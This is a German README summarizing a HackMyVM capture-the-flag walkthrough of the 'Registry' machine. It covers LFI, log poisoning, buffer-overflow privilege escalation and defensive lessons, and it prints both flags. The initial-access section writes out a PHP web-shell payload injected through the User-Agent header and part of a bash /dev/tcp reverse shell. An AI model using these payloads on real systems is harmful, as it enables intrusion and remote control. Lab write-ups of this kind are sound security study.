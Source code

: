 # Registry - HackMyVM

**Schwierigkeitsgrad:** Hard 🔴

---

## ℹ️ Maschineninformationen

*   **Plattform:** HackMyVM
*   **VM Link:** [https://hackmyvm.eu/machines/machine.php?vm=Registry](https://hackmyvm.eu/machines/machine.php?vm=Registry)
*   **Autor:** DarkSpirit

![Registry Machine Icon](Registry.png)

---

## 🏁 Übersicht

Dieser Bericht dokumentiert den Penetrationstest der virtuellen Maschine "Registry" von HackMyVM. Das Ziel war die Erlangung von Systemzugriff und die Ausweitung der Berechtigungen bis auf Root-Ebene. Die Maschine wies kritische Schwachstellen auf, darunter Local File Inclusion (LFI), die zu Log-Poisoning und initialer Remote Code Execution (RCE) führte, sowie mehrere Stufen der Privilege Escalation durch die Ausnutzung von Buffer Overflows in SUID-Binärdateien in Kombination mit unsicheren Sudo-Berechtigungen und Gruppen-Schreibrechten.

---

## 📖 Zusammenfassung des Walkthroughs

Der Pentest gliederte sich in folgende Hauptphasen:

### 🔎 Reconnaissance

*   Netzwerkscan (`arp-scan`) zur Identifizierung der Ziel-IP (192.168.2.51).
*   Hinzufügen des Hostnamens `registry.hmv` zur lokalen `/etc/hosts`.
*   Umfassender Portscan (`nmap`), der Port 22 (SSH - OpenSSH 8.9p1) und Port 80 (HTTP - Apache httpd 2.4.52) als offen identifizierte.

### 🌐 Web Enumeration

*   Scan des Webservers auf Port 80 mit `nikto`, der veraltete Software, Informationslecks (interne IP 127.0.1.1) und Verzeichnislistungen (`/css/`, `/images/`) aufdeckte.
*   Verzeichnis-Brute-Force mit `gobuster` identifizierte u.a. `index.php` und `default.php`.
*   Entdeckung einer Local File Inclusion (LFI) Schwachstelle im `page`-Parameter von `index.php`, ausnutzbar mit `file://` Wrapper und Verzeichnis-Traversal (`....//`). Erfolgreiches Lesen von `/etc/passwd` als Beweis.
*   Suche nach weiteren inkludierbaren Dateien mit `wfuzz` identifizierte u.a. `/var/log/apache2/access.log` und `/var/log/apache2/error.log`. Analyse der Apache-Konfiguration ergab, dass der Access Log für Log Poisoning geeignet ist (Log Level "warn" für Error Log).

### 💻 Initialer Zugriff

*   Einschleusen eines PHP-Payloads (`<?php system($GET['cmd']); ?>`) in den User-Agent-Header einer Anfrage.
*   Ausnutzung der LFI-Schwachstelle zur Inklusion des `access.log` (`index.php?page=file:///.../access.log`) und Ausführung des eingeschleusten PHP-Codes über den `cmd`-Parameter (`&cmd=id`). Nachweis der RCE als `www-data`.
*   Initiierung einer Reverse Shell (`/bin/bash -c 'bash -i >& /dev/tcp/...`') über die RCE.
*   Erfolgreiche Erlangung einer initialen Shell als Benutzer `www-data`.

### 📈 Privilege Escalation

*   Von der `www-data` Shell: Prüfung der `sudo`-Berechtigungen (`sudo -l`). Gefunden: `(gato : gato) NOPASSWD: /usr/bin/wine /opt/projects/MyFirstProgram.exe`.
*   Identifizierung einer SUID-Binärdatei `/opt/others/program` owned by `cxdxnt` (`find / -perm /4000`, `ls -la`). Analyse zeigte Buffer Overflow Schwachstelle.
*   Ausnutzung des Buffer Overflows in `/opt/others/program` (SUID `cxdxnt`) zur Erlangung einer Shell als Benutzer `cxdxnt`.
*   Von der `cxdxnt` Shell: Prüfung der `sudo`-Berechtigungen (`sudo -l`) bestätigte den `(gato : gato) NOPASSWD` Eintrag. Gefunden der User Flag in `/home/cxdxnt/user.txt`.
*   Analyse der Binärdatei `/opt/fixed/new` (Kopie von `/opt/others/program`) zeigte weiterhin Buffer Overflow Anfälligkeit (No Canary, NX enabled). Gefunden, dass `/opt/fixed` owned by `root:admins` ist und Schreibberechtigungen für `admins` hat. Gefunden, dass `gato` Mitglied der Gruppe `admins` ist (`id`).
*   Starten der anfälligen Binärdatei unter Wine als `gato` (`sudo -u gato wine /opt/projects/MyFirstProgram.exe &`) öffnete Netzwerkdienst auf Port 42424.
*   Ausnutzung des Buffer Overflows über den Netzwerkdienst auf Port 42424 (mithilfe eines Python-Skripts und Windows/x86 Reverse Shell Shellcode) zur Erlangung einer Shell als Benutzer `gato` (Wine/Windows Shell).
*   Von der `gato` Shell (oder einem neuen Gato Linux Kontext): Ausnutzung des Buffer Overflows in `/opt/fixed/new` (da schreibbar durch `admins` Gruppe) zur Erlangung einer Root-Shell.
*   Erfolgreiche Erlangung einer Root-Shell.

### 🚩 Flags

*   **User Flag:** Gefunden in `/home/cxdxnt/user.txt`
    ` REGISTRY{4R3_Y0U_R34D1N6_MY_F1L35?} `
*   **Root Flag:** Gefunden in `/root/root.txt`
    ` REGISTRY{7H3_BUFF3R_0V3RF10W_15_FUNNY} `

---

## 🧠 Wichtige Erkenntnisse

*   **Local File Inclusion (LFI):** Eine grundlegende, aber kritische Schwachstelle, die das Lesen beliebiger Dateien ermöglicht und oft zu weiterer Kompromittierung (z.B. Log Poisoning) führt. Strikte Input-Validierung ist unerlässlich.
*   **Log Poisoning:** Die Kombination von LFI mit beschreibbaren und inkludierbaren Log-Dateien ermöglicht RCE. Die Überwachung und Einschränkung des Zugriffs auf Log-Dateien sowie die Implementierung von WAFs sind wichtig.
*   **SUID-Binärdateien:** SUID-Programme, insbesondere solche mit Sicherheitslücken (Buffer Overflows), sind direkte Vektoren zur Privilege Escalation. Periodische Überprüfung und Entfernung von SUID-Berechtigungen auf unnötigen Binärdateien sind entscheidend.
*   **Buffer Overflows:** Fehlen von Schutzmechanismen wie Stack Canary und NX (No-Execute) machen Programme anfällig für die Ausführung von Shellcode. Sorgfältige Binäranalyse und Exploitation sind notwendig.
*   **Sudo Misconfigurations:** `NOPASSWD`-Einträge ermöglichen passwortlose Ausführung von Befehlen als anderer Benutzer. Kombiniert mit einem anfälligen Programm führt dies direkt zu höherer Berechtigung.
*   **Gruppen-Schreibrechte:** Schreibberechtigungen für administrative Gruppen in Systemverzeichnissen ermöglichen das Platzieren von bösartigem Code, der von privilegierten Prozessen ausgeführt wird.
*   **Wine in PE-Ketten:** Die Ausführung von Windows-Programmen unter Wine als privilegierter Benutzer kann neue Angriffsflächen eröffnen, insbesondere wenn die Wine-Umgebung selbst oder die ausgeführten Programme Schwachstellen aufweisen und Netzwerkdienste nutzen.

---

## 📄 Vollständiger Bericht

Eine detaillierte Schritt-für-Schritt-Anleitung, inklusive Befehlsausgaben, Analyse, Bewertung und Empfehlungen für jeden Schritt, finden Sie im vollständigen HTML-Bericht:

[**➡️ Vollständigen Pentest-Bericht hier ansehen**](https://alientec1908.github.io/Registry_HackMyVM_Hard/)

---

*Berichtsdatum: 17. Juni 2025*
*Pentest durchgeführt von Ben Chehade*
